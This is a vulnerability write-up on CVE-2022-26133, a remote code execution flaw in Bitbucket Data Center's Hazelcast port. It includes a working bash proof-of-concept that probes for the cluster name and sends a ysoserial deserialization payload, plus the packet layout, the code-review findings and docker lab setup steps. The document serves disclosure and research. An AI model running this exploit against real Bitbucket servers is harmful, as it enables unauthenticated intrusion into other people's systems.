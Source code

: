 ## Introduction


This write-up provides an overview of CVE-2022-26133 - Bitbucket Data Center - Java Deserialization Vulnerability [[1]](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html). A remote, unauthenticated attacker can exploit this vulnerability by sending a crafted packet to the Hazelcast port and achieve Remote Code Execution (RCE) on the Bitbucket Data Center.  This vulnerability is similar to CVE-2016-10750 [[2]](https://github.com/hazelcast/hazelcast/issues/8024) but is specific to Bitbucket. 



## TL;DR

Bitbucket Data Center makes use of Hazelcast [[3]](https://github.com/hazelcast/hazelcast) for in-memory data caching; by default port 5701 is used for Hazelcast. If an attacker could reach the Hazelcast port of a Bitbucket instance with a crafted network packet Bitbucket responds with the Cluster name of the Data Center Instance. If this cluster name is appended with a serialized payload [[4]](https://github.com/frohoff/ysoserial) and sent again to the Hazelcast port, the payload is deserialized at the cluster node leading to remote code execution on the node. A typical packet structure is as follows:


### Packet Structure of the Payload

```shell

--------------------------------------------------------------------------------------------
|                      |                   |                     |                         |
| size of group name   | group name of     | 0xFF 0xFF 0xFF 0x9C | serialized paylod       |
|       (4 bytes)      | Bitbucket cluster |                     | (e.g CommonsBeanutils1) |
--------------------------------------------------------------------------------------------
```

### POC

```shell

#!/usr/bin/env bash

BITBUCKET_IP=${1:-'127.0.0.1'}
BITBUCKET_HAZELCAST_PORT=${2:-'5701'}
YSOSERIAL_JAR=${3:-'/home/snowyowl/workspace/tools/ysoserial/ysoserial-master-SNAPSHOT.jar'}

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends a dummy 2 bytes
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" > cluster-name.bin

# generate the serialized payload using ysoserial with the CommonsBeanutils1 gadget.
java -jar "$YSOSERIAL_JAR" CommonsBeanutils1 xcalc > CommonsBeanutils1.bin

# append header packets to the serialized payload, this is required for the hazelcast to correctly deserialize the payload
# create the final payload by joining the cluster name and the serialized payload with the header.
printf "\xFF\xFF\xFF\x9C" | cat cluster-name.bin - CommonsBeanutils1.bin > payload.bin

# send the payload to the bitbucket cluster
nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" < payload.bin

```


### The Vulnerability

The detection of the vulnerability primarily involved a white box testing approach. As detailed in the Hazelcast issue report [[2]](https://github.com/hazelcast/hazelcast/issues/8024), CVE-2016-10750 primarily involved modifying the Hazelcast cluster join procedure to include a serialized payload (e.g CommonsBeanutils1). However this approach was failing on Bitbucket Data Center. 

To further analyze the issue the Bitbucket jar files was decompield and source code was analyzed in conjunction to the Hazelcast reference manual [[5]](https://docs.hazelcast.com/imdg/3.12/). A rough sequence diagram was created along the way to better understand how the JoinRequest was processed inside the Bitbucket node. 

It has been observed that hazelcast join sequence is intercepted by a com.atlassian.stash.internal.cluster.ClusterJoinSocketInterceptor class that implements com.hazelcast.nio.MemberSocketInterceptor interface [[5]](https://docs.hazelcast.com/imdg/3.12/security/socket-interceptor). The ClusterJoinSocketInterceptor relied on com.atlassian.stash.internal.cluster.SharedSecretClusterAuthenticator class to perform a basic authentication using cluster name and password that was set during the Bitbucket Data Center Installation. To restate it differently a custom network authentication protocol has been implemented inside SharedSecretClusterAuthenticator on top of the Hazelcast JoinRequest. So initally it seemed that the exploit was closed on the Bitbucket end.


Inspired by the excellent research of GHSL researcher Man Yue Mo [[6]](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/) a second round of manual code review was performed and a readObject method was noticed inside the SharedSecretClusterAuthenticator. The runMutualChallengeResponse method inside the SharedSecretClusterAuthenticator was invoking a receiveObject that was in-turn using a readObject method on the raw input stream from the Hazelcast port. It would have been a lot faster, if CodeQL could have been used for this analysis however only the decompileld source was available and using CodeQL without building the source code seemed quite challenging.  


![runMutualChallengeResponse](images/runMutualChallengeResponse.png)

To reach this execution path the GroupName (cluster name) of the Bitbucket node was required. Luckily this was directly accessible by sending a probe to the HazelCast port.


![verifyGroupName](images/verifyGroupName.png)

 The probe is a nothing but a basic TCP packet with the data bytes set as per the below structure.

```shell
------------------------------------------------
|                          |                   |
| Size of following field  |    random bytes   |
|      (4 bytes )          |    (size bytes)   |
------------------------------------------------

```

Bitbucket server responds with the groupname of the cluster prepended with the length (in bytes) of the group name. This response packet can then be used directly in crafting the final payload.

```shell

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends  2 bytes (don't care - dummy bytes)
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT"

```






### Exploit

1. Use the below commands to create Bitbucket Data Center cluster on docker

```shell

git clone https://github.com/snowyyowl/writeups.git

cd CVE-2022-26133/scripts

# setup the first node
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20  --bitbucket-setup-base-node

# complete the setup in the Web GUI and then stop the bitbucket instance (Ctrl + C )

# allow xauth from docker so that the calc can pop-up
xhost + 

# setup the subsequent node and the loadbalancer
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20 

``` 

2. Run the POC script

```shell

./bitbucket-hazelcast-rce-poc.sh 

# update the port to Hazelcast port on the second node (e.g 3060) to get RCE on the second node

```

![hazelcast-rce](images/bitbucket-hazelcast-rce-poc.png)


#### Probe Packet to Query Cluster Name

![wireshark-query-bitbucket-cluster-name](images/wireshark-query-bitbucket-cluster-name.png)


#### Response Packet from Bitbucket

![wireshark-bitbucket-response-cluster-name](images/wireshark-bitbucket-response-cluster-name.png)


#### Payload to trigger RCE

![wireshark-bitbucket-payload](images/wireshark-bitbucket-payload.png)


The full wireshark capture may be downloaded from [here](wireshark/bitbucket-hazelcast-rce-wireshark.pcapng)

### Call Chain

![call-chain](images/BitBucketDeserializationCallChain.png)

## References
1. [Multiple Products Security Advisory - Hazelcast Vulnerable To Remote Code Execution](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html)
1. [Hazelcast is vulnerable to untrusted deserialization remote code execution #8024](https://github.com/hazelcast/hazelcast/issues/8024)
1. [Hazelcast](https://github.com/hazelcast/hazelcast)
1. [ysoserial Frohoff et al.](https://github.com/frohoff/ysoserial)
1. [Hazelcast Reference Manual](https://docs.hazelcast.com/imdg/3.12/)
1. [In-Memory Data Grid Applications: Finding Common Java Deserialization Vulnerabilities with CodeQL, Man Yue Mo](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/)

